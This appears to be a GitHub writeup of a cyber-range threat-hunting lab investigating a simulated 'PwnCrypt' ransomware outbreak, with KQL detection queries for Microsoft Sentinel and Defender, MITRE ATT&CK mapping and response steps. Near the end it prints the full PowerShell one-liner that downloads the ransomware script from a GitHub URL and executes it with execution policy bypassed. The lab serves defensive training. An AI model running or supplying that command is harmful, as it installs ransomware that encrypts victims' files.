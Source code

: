 
---

## **🎯 Incident Response Plan: Zero-Day Ransomware (PwnCrypt) Outbreak**  

![image (11)](https://github.com/user-attachments/assets/abe54490-9d72-416b-8e9c-ac8746484da3)

### **Scenario**  
A new ransomware strain, **PwnCrypt**, has emerged. It utilizes a PowerShell-based payload to encrypt files, appending `.pwncrypt` to filenames (e.g., `hello.txt → hello.pwncrypt.txt`). The payload is downloaded using `Invoke-WebRequest` via PowerShell and targets specific directories like `C:\Users\Public\Desktop`. The CISO has raised concerns, and immediate investigation is required.  
 
## Platforms and Languages Leveraged
- Microsoft Sentinel
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
---

### **1️⃣ Preparation**  
📌 **Goal:** Develop a hypothesis based on threat intelligence and organizational gaps.  
- The organization's immature security program (e.g., no user training) may have allowed ransomware into the network.  
- Use known IoCs, such as `.pwncrypt` file extensions, to guide the investigation.  

🔎 **Hypothesis:** Could PwnCrypt have spread laterally across the network?  

---

### **2️⃣ Data Collection**  
📌 **Goal:** Gather logs and evidence from endpoints, file systems, and network traffic.  

#### 🖥️ **Suspicious PowerShell Command Query:** 
```kql
DeviceFileEvents
| top 20 by Timestamp desc
```
```kql
DeviceNetworkEvents
| top 20 by Timestamp desc
```
```kql
DeviceProcessEvents
| top 20 by Timestamp desc
```

```kql
DeviceProcessEvents
| where ProcessCommandLine has "Invoke-WebRequest" and ProcessCommandLine has "pwncrypt.ps1"
| project Timestamp, DeviceName, InitiatingProcessParentFileName, ProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 112931](https://github.com/user-attachments/assets/726cfa16-8617-410e-9805-c316b01a0606)


#### 🔄 **Trace Ransomware Execution:**  
```kql
DeviceProcessEvents
| where ProcessCommandLine has "C:\\programdata\\pwncrypt.ps1" or FileName == "powershell.exe"
| project Timestamp, DeviceName, InitiatingProcessFileName, ProcessCommandLine, AccountName, InitiatingProcessAccountName
```
![Screenshot 2025-01-09 112245](https://github.com/user-attachments/assets/d657757a-28a1-491e-a246-d94b0f720ea0)

#### 🌐 **Outbound Network Activity:**  
```kql
DeviceNetworkEvents
| where RemoteUrl has "githubusercontent.com"
| project Timestamp, DeviceName, RemoteIP, RemoteUrl, InitiatingProcessCommandLine, AccountName
```
![Screenshot 2025-01-09 114155](https://github.com/user-attachments/assets/3dad1d63-ddbf-4790-a3b4-e8853f253314)

---

### **3️⃣ Data Analysis**  
📌 **Goal:** Examine data for anomalies, patterns, and IoCs.  

🛑 **Indicators Found:**  
- **PowerShell Usage:** Execution of `pwncrypt.ps1` via `Invoke-WebRequest`.  
- **Outbound Traffic:** Connection to GitHub for payload download.  
- **File Events:** Creation of `.pwncrypt` files in user directories.  

🧠 **TTPs Mapped to MITRE ATT&CK Framework:**  
- **T1059.001**: Command and Scripting Interpreter (PowerShell).  
- **T1486**: Data Encrypted for Impact (Ransomware).  
- **T1105**: Ingress Tool Transfer (Downloading payloads).  
- **T1547**: Boot/Logon Autostart Execution (Persistence).  

---

### **4️⃣ Investigation**  
📌 **Goal:** Deep dive into findings and assess the threat's scope.  

#### 🔍 **Steps:**  
1. Check **DeviceFileEvents** for `.pwncrypt` file creation.  
2. Investigate process lineage in **DeviceProcessEvents** to identify the initial infection vector.  
3. Analyze account activity for potential compromise.  

---

### **5️⃣ Response**  
📌 **Goal:** Contain and mitigate confirmed threats.  

#### 🛡️ **Containment:**  
- 🚫 Disconnect affected devices from the network.  
- 🧱 Block known malicious IPs and domains.  

#### 🧹 **Eradication:**  
- Remove `pwncrypt.ps1` and terminate related processes.  
- Scan endpoints for persistence mechanisms (e.g., scheduled tasks).  

#### 🔄 **Recovery:**  
- Restore data from **clean backups**.  
- Verify integrity of restored systems.  

---

### **6️⃣ Documentation**  
📌 **Goal:** Record findings and actions taken.  

🗒️ **What to Document:**  
- Timeline of events.  
- IoCs identified (e.g., `.pwncrypt` files, GitHub URLs).  
- Steps for containment, eradication, and recovery.  
- Gaps in security posture and recommendations for improvement.  

---

### **7️⃣ Improvement**  
📌 **Goal:** Enhance the organization’s defenses against future incidents.  

#### 🚀 **Action Plan:**  
1. Deploy **endpoint protection policies**.  
2. Implement **user training** to identify phishing attempts.  
3. Strengthen **logging and monitoring** to detect suspicious behavior earlier.  

---

### **Ransomware Command Snapshot**  
⚠️ Example of how the ransomware script was executed:  
```powershell
Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1' -OutFile 'C:\programdata\pwncrypt.ps1';cmd /c powershell.exe -ExecutionPolicy Bypass -File C:\programdata\pwncrypt.ps1
```

📅 **Incident Start Time:**  
- **Date:** Jan 09, 2025  
- **Time:** 9:45 AM  
- **IP:** 185.199.111.133  
